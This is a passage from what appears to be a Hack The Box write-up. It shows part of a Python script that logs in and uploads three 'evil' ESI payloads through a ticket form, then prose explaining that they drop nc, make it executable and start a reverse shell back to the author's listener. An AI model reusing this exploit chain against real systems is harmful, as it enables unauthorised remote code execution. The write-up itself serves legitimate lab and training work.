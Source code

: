 ```python
    print("Login successful!\n")
    esi1_r = requests.post(ticket_url, headers = ticket_headers, data = esi1)
    time.sleep(1)
    ticGet1_r = requests.get(ticGet1_url, headers = ticGet_headers)
    time.sleep(1)
else:
    print("The request failed with status code: " + str(login_r.status_code))
    print("Did not login successfully :(\n")
    print("Dumping response text:\n\n")
    print(login_r.text)
    sys.exit()

if esi1_r.status_code == 200:
    print("Evil1 upload successful!\n")
    esi2_r = requests.post(ticket_url, headers = ticket_headers, data = esi2)
    time.sleep(1)
    ticGet2_r = requests.get(ticGet2_url, headers = ticGet_headers)
    time.sleep(1)
else:
    print("The request failed with status code: " + str(esi1_r.status_code))
    print("Did not upload evil1 successfully :(\n")
    sys.exit()

if esi2_r.status_code == 200:
    print("Evil2 upload successful!\n")
    esi3_r = requests.post(ticket_url, headers = ticket_headers, data = esi3)
    time.sleep(1)
    ticGet3_r = requests.get(ticGet3_url, headers = ticGet_headers)
else:
    print("The request failed with status code: " + str(esi2_r.status_code))
    print("Did not upload evil2 successfully :(\n")
    sys.exit()

if esi3_r.status_code == 200:
    print("Evil3 upload successful!\n")
    print("Check your nc listener...shell should be inbound!\n")
else:
    print("The request failed with status code: " + str(esi3_r.status_code))
    print("Did not upload evil3 successfully :(\n")

#TODO: generalize urls and other data to be used other than in HTB; perhaps take as input arguments URL, PORT, USER, PASS, Commands to be run (foreach type loop)...
#TODO: exception handling
#TODO: instead of separate SimpleHTTPServer hosting different files, do in-script
#TODO: instead of nc listener in terminal, implement in-script
```

I ran the script with three separate ESL files.  Each were loaded with commands that would enable me to get a reverse shell.  The first send a version of `nc` that had the ability to execute commands upon connection.  The second ran `chmod +x nc` to ensure it was executable. The third contained my reverse shell command that would connect back to my machine.  I loaded up all of my files with different filenames, executed my script, and crossed my fingers hoping that everything would work.
